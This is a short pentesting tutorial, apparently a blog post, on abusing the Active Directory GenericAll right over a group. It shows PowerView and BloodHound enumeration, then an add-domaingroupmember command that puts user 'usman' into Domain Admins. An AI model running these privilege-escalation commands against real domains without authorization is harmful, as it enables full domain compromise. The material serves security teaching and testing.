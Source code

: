 ```yaml
---
title:  GenericAll On Group
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Active Directory]
tags: []  
---
```


# GenericAll

***GenericAll*** : Is a permission that gives full rights to an active directory objects. If you have `GenericAll` on group object, you can add users to the group.

# Enumeration

## PowerView

### GenericAll Enumeration 

We will get current user's sid by executing `whoami /user`, import powerview, then execute the below command to get the list of objects on which we have `GenericAll` right.

Command
```powershell

get-objectacl -resolveguids | ? {($_.securityidentifier -eq "[our_current_user_sid]") -and ($_.activedirectoryrights -eq "GenericAll")}

```

Below image shows the current user `usman` has GenericAll right on `Domain Admins` group.

![aclgroupgenall](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall2.png)

## BloodHound

We can also get thesame result using bloodhound.

Below image shows the current user `usman` has GenericAll right on `Domain Admins` group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall1.png)

# Exploitation

Let's check our current group.

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall3.png)

Here `usman` is a member of `Domain Users` group. We are going to exploit `GenericAll` to add `usman` to `Domain Admins` group.

## PowerView

Since we have `GenericAll` right on `Domain Admins` group, we can add `usman` to the group by executing the below command

Command

```powershell
add-domaingroupmember -identity "Domain Admins" -members usman

```

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall4.png)

Let's check it by executing `get-netgroup -memberidentity usman`

![acl](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/aclgroupgenall5.png)

As you can see, `usman` has been added to `Domain Admins` group.
	
# References

- [https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2](https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2)
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse)
